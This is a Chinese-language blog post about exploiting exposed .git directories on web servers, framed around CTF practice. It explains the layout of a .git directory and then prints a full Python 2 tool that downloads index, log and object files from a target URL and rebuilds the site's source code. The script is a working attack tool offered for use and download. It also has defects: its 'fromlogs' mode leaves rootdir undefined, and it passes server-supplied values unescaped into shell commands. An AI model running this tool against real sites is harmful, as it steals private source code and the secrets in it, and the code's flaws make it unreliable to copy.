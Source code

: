 ```yaml
---
title: git目录泄漏利用工具
date: 2018-01-22 18:42:00
tags: [WEB,TOOLS]
categories: 安全工具
---
```

## 前言
说找时间写，今天终于动手来写一波有关漏洞利用工具的博文。
git目录泄漏导致了源码泄漏，是一种很严重的过失。说是过失是因为它其实很容易避免。其实在ctf比赛中还是遇到过很多这样的题型，只要能把整个目录中的重要文件下载下来就可以了，那么怎样下载，就是下面要写的了。
## 知识点
要想下载git目录首先要知道这个目录下的文件都有啥含义。
-  hooks:这个目录存放一些shell脚本，可以设置特定的git命令后触发相应的脚本；在搭建gitweb系统或其他git托管系统会经常用到hook script
- info:包含仓库的一些信息
-  logs:保存所有更新的引用记录
-  objects:所有的Git对象都会存放在这个目录中，对象的SHA1哈希值的前两位是文件夹名称，后38位作为对象文件名
-  refs:这个目录一般包括三个子文件夹，heads、remotes和tags，heads中的文件标识了项目中的各个分支指向的当前commit
- COMMIT_EDITMSG:保存最新的commit message，Git系统不会用到这个文件，只是给用户一个参考
- config:这个是GIt仓库的配置文件
- description:仓库的描述信息，主要给gitweb等git托管系统使用
- index:这个文件就是我们前面提到的暂存区（stage），是一个二进制文件
-  HEAD:这个文件包含了一个档期分支（branch）的引用，通过这个文件Git可以得到下一次commit的parent
- ORIG_HEAD:HEAD指针的前一个状态

上面的内容网上很多，可以多了解了解。还有git的基本操作如果都理解的话就可以进行下面的内容了。
## 分析利用方法
其实git目录中是没有源码的明文，也就是说要得到源码，还要使用git命令进行转换的。而且，只要能下载到对象文件就可以了。我有两种想法。
- 一般情况下，在暂存区中记录的对象包含了大部分想要获得的文件，说大部分是因为可能有一部分被删除了。所以只分析index文件可能会漏掉一些。
- 还有一种是分析logs/HEAD文件，这个文件记录了仓库从创建到最后所有的提交记录以及分支变换等等的记录。但是它并不记录`git add .`等的添加命令，也就是说没有提交的对象分析不到。但是它会记录已经删除的文件和不同版本的文件。
鉴于两种方法的互补，可以按照两种方法分别写出程序，在没有头绪之时考虑是否是方法的弊端导致的漏掉文件。
## 源码

```python
# coding:utf-8
# python2
import os,sys
try:
    import requests
except:
    print 'Lost "requests" Module.\nyou can execute "pip install requests" to install this module.'
    exit(1)

class GitHack:
    #params->hosturl: 远程git仓库url，如：http://url/.git/
    #       ->rootdir: 本地会在这个目录建立git版本库
    def __init__(self,hosturl,rootDir='githack'):
        self.host = hosturl.strip('/')+'/'
        self.dir = rootDir

        if not os.path.exists(rootDir):
            os.makedirs(rootDir)
        os.chdir(rootDir)
        os.popen('git init')

    def getFile(self,urlpath):
        '''
        功能：从指定的相对url中获取文件，并存储在本地（使用相同的相对路径）
        参数：urlpath是文件相对于self.host的路径
        注意：本函数会检查目录路径是否存在，只捕获reqeusts.get的异常
        '''
        try:
            r = requests.get(self.host+urlpath)
        except:
            print 'Error!the {} requests failed!'.format(self.host+'.git/'+urlpath)
            return False
        if r.status_code == 404:
            print 'Error!no such file {}'.format(urlpath)
            return False
        a = urlpath.rfind('/')
        if -1 != a:
            if not os.path.exists('.git/'+urlpath[:a]):
                os.makedirs('.git/'+urlpath[:a])
        f = open('.git/'+urlpath,'w')
        f.write(r.content)
        r.close()
        f.close()
        print 'Download file {} ok!'.format(urlpath)
        return True

    def fromIndex(self):
        '''
        功能：还原暂存区的对象
        '''
        self.getFile('index')
        rst = os.popen('git ls-files --stage').readlines()
        queryDic = {}
        sucDic = {}
        for i in rst:
            a = i.find(' ')
            b = i.rfind(' ')
            c = i.rfind('\t')
            queryDic[i[a+1:b]] = i[c+1:-1]
        for f in queryDic:
            if(self.getFile('objects/{}/{}'.format(f[:2],f[2:]))):
                sucDic[f] = queryDic[f]
        return sucDic

    def fromLogs(self):
        '''
        功能：从logs/HEAD文件开始，还原所有对象
        '''
        self.getFile('index')
        self.getFile('logs/HEAD')
        self.getFile('HEAD')
        self.getFile('refs/heads/master')
        logs = []
        queryList = []
        sucDic = {}
        with open('.git/logs/HEAD','r') as f:
            logs = f.readlines()
        for l in logs:
            a = l.find(' ')
            queryList.append(l[a+1:a+1+40])
        for f in queryList:
            if self.getFile('objects/{}/{}'.format(f[:2],f[2:])):
                #tree
                s = os.popen('git cat-file -p {}'.format(f)).readlines()[0]
                s = s[5:-1]
                sucDic.update(self.__getTree(s))
        return sucDic

    def __getTree(self,f,prefix=''):
        '''
        功能：递归获取指定tree类型对象下的所有blob对象
        参数：f 是指定对象的sha1值，他应该是tree类型
        prefix 是前一个tree对象对应的目录，它使用来还原文件的原始路径的。类似于 objects/
        
        '''
        sucDic = {}
        if self.getFile('objects/{}/{}'.format(f[:2],f[2:])):
            for i in os.popen('git cat-file -p {}'.format(f)).readlines():
                d = i.find(' ')+1
                if 'tree' == i[d:d+4]:
                    a = i.find('tree')+5
                    b = i.rfind('\t')
                    sucDic.update(self.__getTree(i[a:b],prefix+i[b+1:-1]+'/'))
                    continue
                
                a = i.find('blob')+5
                b = i.rfind('\t')
                if self.getFile('objects/{}/{}'.format(i[a:a+2],i[a+2:b])):
                    sucDic[i[a:b]] = prefix+i[b+1:-1]
        return sucDic

    def saveFile(self,sucDic):
        '''
        功能：根据sucDic获取文件的内容,他并不是必要的函数，他只是将所有blob对象还原成文件
        参数：sucDic类似于{'111...1':'1.txt'}键为对象sha1值，值为对应文件名路径
        '''
        for i in sucDic:
            text = os.popen('git cat-file -p {}'.format(i)).read()
            #mkdir
            a = sucDic[i].rfind('/')
            if(-1 != a):
                if not os.path.exists(sucDic[i][:a]):
                    os.makedirs(sucDic[i][:a])
            f = open(sucDic[i],'w')
            f.write(text)
            f.close()
            print 'save file {}.'.format(sucDic[i])

def usage():
    print '''usage:python githack.py hosturl [rootdir] [fromlogs]
                    params：hosturl为包含git目录的url
                            rootdirgit目录会下载到该目录
                            fromlogs可以为任意值即可变为第二个模式。
                    本脚本有两个模式（默认1）：1.下载暂存区的文件。2.从logs中遍历所有对象'''

def main():
    '''
    没怎么处理异常，也没美化命令行，有时间做
    '''
    log = False
    if len(sys.argv)==3:
        rootdir = sys.argv[2]
    elif len(sys.argv)==2:
        rootdir = 'githack'
    elif len(sys.argv)==4:
        log = True
    else:
        usage()
        return
    g = GitHack(sys.argv[1],rootdir)
    if log:
        print 'from Logs mod!'
        sucDic = g.fromLogs()
    else:
        print 'from index mod!'
        sucDic = g.fromIndex()
    #print sucDic
    print ''
    g.saveFile(sucDic)

main()
```
源码也可以到我的码云上下载 [我的githack](https://gitee.com/ktstart/githack "我的githack")
## 总结
这个工具很早之前就有简洁版本，现在重新写了一遍，对git工具的使用和git目录又熟悉了不少。虽然网络上早有此类工具，但自己写出来还是有不少感悟，以后多写多练。